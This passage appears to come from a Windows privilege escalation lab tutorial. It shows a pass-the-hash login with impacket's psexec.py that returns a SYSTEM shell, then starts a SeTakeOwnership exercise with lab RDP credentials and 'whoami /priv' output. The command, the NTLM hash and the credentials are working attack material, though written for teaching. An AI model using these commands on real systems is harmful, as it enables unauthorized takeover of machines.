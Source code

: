 ```shell-session
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.143.36
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system        
```

### SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any  object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for  example, search for a service running as SYSTEM and take ownership of  the service's executable. For this task, we will be taking a different  route, however.

Log in to the target machine via RDP using the following credentials:

**User:** `THMTakeOwnership` 

**Password:** `TheWorldIsMine2022`

To get the SeTakeOwnership privilege, we need to open a command  prompt using the "Open as administrator" option. We will be asked to  input our password to get an elevated console:

![Run as admin](./assets/33303d0cde736589d2838ee894379ff2.png)

Once on the command prompt, we can check our privileges with the following command:

- **Command Prompt**        

```shell-session
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
        
```
